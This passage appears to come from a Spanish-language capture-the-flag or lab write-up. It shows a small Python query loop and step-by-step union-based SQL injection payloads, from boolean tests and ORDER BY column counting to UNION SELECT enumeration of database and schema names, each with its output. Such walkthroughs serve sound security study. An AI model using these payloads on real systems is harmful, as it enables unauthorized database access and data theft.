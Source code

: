 ```python
 
    while query != 'exit':     
        
        query = input('> ')
        
        send = makeRequest(query)
    
        output = re.findall("<td>(.*?)</td>", send)[0]
        
        print(output)

        print()
```        
Ejecutamos el script usando rlwrap para poder tener historico y poder movernos mas comodos.
```bash
❯ rlwrap python3 sqlI.py
BTAPXNX4' and 1=1-- -
BTAPXNX4
```
Nos devuelve el valor por que la consulta esta correcta, si le indicamos una query incorrecta nos va a decir not found.
```bash
> BTAPXNX4' and 2=1-- -
Not Found
```
Teniendo esto claro podemos ver cual es el numero de columnas que hay en la tabla que se esta utilizando actualmente, podemos saber cual es el numero de columnas usando order by.
```bash
> BTAPXNX4' order by 100-- -
Not Found

> BTAPXNX4' order by 3-- -
BTAPXNX4

> BTAPXNX4' order by 4-- -
Not Found
```
Podemos ver que hay 3 columnas, sabiendo el numero de columnas podemos aplicar un union select para selecionar las 3 columnas.
```bash
> ' union select 1,2,3-- -
2
```
Ese numero 2 que nos devuelve es el numero 2 de nuestra seleccion, si le indicamos test por ejemplo nos delvuelve ese valor.
```bash
' union select 1,'test',3-- -
test
```
Vale atraves del numero 2 podemos dumpear todos los datos que nos interesen por ejemplo veamos cual es el nombre de la base de datos actualmente en uso.
```bash
> ' union select 1,database(),3-- -
checkout
```
Veamos cuales son los nombres de todas las bases de datos que existen.
```bash
> ' union select 1,schema_name,3 from information_schema.schemata-- -
information_schema
```
Nos devuelve un solo valor por que no es capas de incluir los demas resultados para poder ver todos los valores podemos usar group_concat().
```bash
> ' union select 1,group_concat(schema_name),3 from information_schema.schemata-- -
information_schema,checkout
```